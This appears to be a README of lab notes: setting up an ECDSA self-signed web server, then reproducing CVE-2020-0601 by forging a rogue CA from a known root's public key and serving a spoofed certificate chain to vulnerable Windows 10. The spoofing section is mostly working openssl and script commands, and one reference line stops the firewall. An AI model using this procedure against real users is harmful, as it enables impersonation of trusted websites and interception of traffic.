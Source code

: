 # ECDSA

## Set up a self-signed web server
- Generate CA key and certificate
	1. openssl ecparam -genkey -name secp384r1 -out myca.key
	2. openssl req -x509 -new -SHA384 -nodes -key myca.key -days 3650 -out myca.crt
- Generate myweb key and certificate
	3. openssl ecparam -genkey -name secp384r1 -out myweb.key
	4. openssl req -new -SHA384 -key myweb.key -nodes -out myweb.csr (it does not matter what values you'll fill but Common Name will be used later.)
	5. openssl x509 -req -SHA384 -days 365 -in myweb.csr -CA myca.crt -CAkey myca.key -CAcreateserial -out myweb.crt
- Run web server and browse the website
	6. python mywebsrv.py  --cert myweb.crt --priv myweb.key
	7. you can browse https://myweb:44330/

## CVE-2020-0601

The following steps are based on the instruction at https://github.com/kudelskisecurity/chainoffools
- Generate rogue CA private key and certificate based on known root CA's public key
	1. curl -o USERTrustECCCertificationAuthority.crt http://www.tbs-x509.com/USERTrustECCCertificationAuthority.crt
	2. curl -o gen-key.py https://raw.githubusercontent.com/kudelskisecurity/chainoffools/master/gen-key.py
	3. openssl ecparam -name secp384r1 -genkey -noout -out p384-key.pem -param_enc explicit
	4. python gen-key.py
	5. openssl req -key p384-key-rogue.pem -new -out ca-rogue.pem -x509 -set_serial 0x5c8b99c55a94c5d27156decd8980cc26 (it does not matter what values you'll fill)
- Sign your web server's certificate with the rogue CA
	6. openssl x509 -req -SHA384 -days 365 -in myweb.csr -CA ca-rogue.pem -CAkey p384-key-rogue.pem -CAcreateserial -out myweb.crt
	7. cat myweb.crt ca-rogue.pem > chain.pem (Need to provide full certificate path)
- Run web server and browse the website
	9. python mywebsrv.py  --cert chain.pem --priv myweb.key
	10. In vulnerable Windows 10, use IE to browse https://myweb:44330/ (host name should match the Common Name you filled when creating myweb.csr)

## Reference
- Use openssl to host a web server. However it won't work for the CVE-2020-0601 scenario
	openssl s_server -key ../self-signed/server.key -cert server.crt -accept 44330 -www
- View certificate
	openssl x509 -in ../../MSECC.cer -text -noout
- I need to stop firewall to make web server accept connection
	sudo service firewalld stop
- Setup ECDSA
	https://www.erianna.com/ecdsa-certificate-authorities-and-certificates-with-openssl/
- Check websites using ECDSA
	https://security.stackexchange.com/questions/58603/are-any-major-websites-offering-ecdsa-authentication

